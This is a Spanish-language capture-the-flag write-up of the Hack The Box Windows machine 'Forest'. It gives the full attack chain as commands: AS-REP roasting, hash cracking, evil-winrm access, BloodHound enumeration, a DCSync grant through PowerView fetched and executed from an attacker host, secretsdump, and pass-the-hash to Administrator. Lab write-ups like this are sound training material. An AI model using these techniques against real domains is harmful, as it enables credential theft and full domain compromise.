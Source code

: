 ```yaml
---
layout: post
author: Sergio Salgado
---
```


|     Iformation         |      Link          |
|:-----------------------|:-------------------|
| Name                   | Forest             |
| Os                     | Windows            |
| Difficulty             | Easy               |
| Points                 | 0                  |
| IP                     | 10.10.10.161       |

## [](#header-2)Reconocimiento

Primero utilizaremos la herramienta que hace la identificación de conexión silenciosa y reconocimiento del sistema al que nos presentamos.

![Scan 1](/assets/images/Forest/scan1.png)

### [](#header-3)NMAP   

El primer escaneo rápido con nmap, para poder agilizar mientras más búsquedas o búsqueda de vulnerabilidades sobre esos puertos.

```s
sudo nmap -p- --open -sS --min-rate 5000 -vvv 10.10.10.161
```

![nmap 1](/assets/images/Forest/nmap1.png)

El segundo escaneo, ya un poco más profundo será:

```s
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.161 -oG allPorts
```

![nmap2](/assets/images/Forest/nmap2.png)

Después de tener los puertos, se puede hacer un escaneo ahora directo a los puertos con:

```s
sudo nmap -sCV -p53,88,135,139,389,445,464,593,636,47001,49664,49665,49666,49667,49671,49676,49677,49684,49706,49936 10.10.10.161 -oN targeted
```

![nmap 3.1](/assets/images/Forest/nmap3.1.png)

![nmap 3.1](/assets/images/Forest/nmap3.2.png)

Este tercer escaneo ya nos mostro ms informacion sobre los puertos que estan expuestos, podremos empezar a enumerar servicios con:

```s
enum4linux -a 10.10.10.161
```

![enum4linux](/assets/images/Forest/enum4linux.png)

Este escaneo rapido, nos dio informacion relevante, ya que la maquina permite el acceso sin usuario ni contrasena y podremos ver que se encuentra dentro. Tambien nos permitio saber el tamano de las contrasenas, mas nombres de usuario y que existen grupos de remote access que posteriormente podremos usar con evil win.

```s
crackmapexec smb 10.10.10.161
crackmapexec smb 10.10.10.161 -u users -p credentials --continue-on-success
```

Incorporamos el dominio htb.local a nuestro /etc/hosts 

Como no tenemos credenciales todavia, podemos meter un

```s
smbclient -L 10.10.10.161 -N
```

Ya que sabemos que el usuario Anonymous esta habilitado, podemos probar una herramienta 

```s
rpcclient -U "" 10.10.10.161 -N
#enumdomusers para listar usuarios del dominio

rpcclient -U "" 10.10.10.161 -N -c "enumdomusers" | grep -oP '\[.*?\]' | grep "0x" -v | tr -d '[]' > ../users.txt
```

Ya que podemos acceder a este servicio, podemos usar la<a href="https://github.com/s4vitar/rpcenum.git">herramienta</a> de s4vitar para enumerar mas informacion en este servicio 

Para usarla corremos un:

```s
sudo ./rpcenum -e DUsers -i 10.10.10.161
sudo ./rpcenum -e All -i 10.10.10.161
```

![Rpcenum](/assets/images/Forest/rpcenum.png)

Ahora podemos usar la herramienta de kali Impacket de la manera siguiente:

```s
impacket-GetNPUsers htb.local/ -no-pass -usersfile users.txt 2>/dev/null
```

Tenemos un usuario que si accedia a este servicio

![kerberos](/assets/images/Forest/kerberos_auth.png)

Como funciona esta vulnerabilidad? Pues si la contrasena de este usuario es debil, podriamos romperla.

```s
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

![Password cracked](/assets/images/Forest/password_cracked.png)

Efectivamente, es debil su contrasena. Para validarla podemos usar un:

```s
crackmapexec smb 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'
```

Ahoora lo que podemos hacer es:

```s
impacket-GetNPUsers htb.local/svc-alfresco:s3rvice@10.10.10.161 -dc-ip 10.10.10.161
```

Lo siguiente seria usar ldapdomaindump para listar kerberosbroadsting:
Primero nos desplazamos al directorio /var/www/html.
Segundo, ejecutamos:

```s
ldapdomaindump -u 'htb.local\svc-alfresco' -p 's3rvice' 10.10.10.161

service apache2 start
```

El resultado del comando anterior sera esto, y lo podremos visualizar si iniciamos despues el apache2

![ldapdomaindump](/assets/images/Forest/domain_dump.png)

![domain users](/assets/images/Forest/domain_users_by_group.png)

Tenemos ahora una forma mas chula de ver la informacion de la maquina.

Ahora lo que podemos hacer es:

```s
crackmapexec winrm 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'
```

Nos aparece powned, asi que ahora podemos tener ejecusion remota en la maquina.

```s
evil-winrm -i 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'
```

Podemos ahora visitar el desktop y visualizar la flag. Para escalar los privilegios ahora podemos usar Bloodhound.

```s
#instalacion
sudo apt install neo4j bloodhound -y

neo4j console
#pass default  usuario neo4j y contrasena ne4j
```

```s
bloodhound --nosandbox &> /dev/null &
disown
```
Tuve complicaciones para hacer compatible bloodhound con el siguiente injector, pero con la sigiente <a href="https://github.com/BloodHoundAD/BloodHound/releases/download/4.0.3/BloodHound-linux-x64.zip"> version</a> pude continuar.

Vamos a usar un injector de<a href="https://github.com/puckiestyle/powershell/blob/master/SharpHound.ps1"> github</a>, nos lo podemos descargar con un wget desde la vista raw.

Ahora en la maquina con el evil-win solo tenemos que darle un upload SharpHound.ps1

Despues haremos la importacion del modulo con un:

```powershell
Import-Module .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All
```

Con esto hemos terminado la recoleccion de informacion y ha sido guardado en el archivo .zip.

![BloodHound information recolection](/assets/images/Forest/bh_recolection.png)

Nos descargamos el archivo con un download. Y lo importamos en BloodHound ahora.

Ahora que esta cargado el .zip, podemos darle click en el menu del lado izquierdo y en la parte de analysis empezar a enumerar posibilidades de escalada de privilegios. En el siguiente ejemplo vemos a alfresco y podemos darle a la opcion de owned.

Find AS-REP Roastable Users (DontReqPreAuth) VIEW

![User own](/assets/images/Forest/import_bh.png)

Find Shortest Paths to Domain Admins

![Easy way to become admin](/assets/images/Forest/becoming_admin.png)

La siguiente vista nos describe que alfresco es miembro del grupo service account, que a su vez tambien es miembro de Priviliged IT Account, Account operators. Entonces podemos crear usuarios quizas con los permisos que queramos, procedemos a intentar lo siguiente:

```s
#Creamos el usuario rebick con su contrasena a nivel dominio
net user rebick rebick1234! /add /domain
#Listamos los grupos
net group
net group "Exchange Windows Permissions" rebick /add
```

![Rebick added](/assets/images/Forest/rebick_added.png)

BloodHound nos da todo, en la siguiente ventana habremos dado click derecho y seleccionar la opcion help para que la herramienta nos muestre los pasos para avanzar al siguiente paso.

![Help view](/assets/images/Forest/rebick_added.png)

Antes, descargaremos la herramienta que nos permitira escalar esto de<a href="https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1"> github</a>. La cargamos a la maquina victima y la importamos abriendo un servidor de python y en la maquina windows:

```powershell
$SecPassword = ConvertTo-SecureString 'rebick1234!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb.local\rebick', $SecPassword)

IEX(New-Object Net.WebClient).downloadString('http://10.10.14.29/PowerView.ps1')
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity rebick -Rights DCSync
```

Y ahora que tenemos el permiso podemos ejecutar:

```s
impacket-secretsdump htb.local/rebick@10.10.10.161
```

![Credentials dumped](/assets/images/Forest/credentials_returned.png)

Ahora ya tenemos los hashes para el usuario Administrador tambien. Podemos ahora intentar crackear la contrasena o simplemente con el evil-winrm pasarle el hash de la manera siguiente:

```s
evil-winrm -i 10.10.10.161 -u 'Administrator' -H '32693b11e6aa90eb43d32c72a07ceea6'
```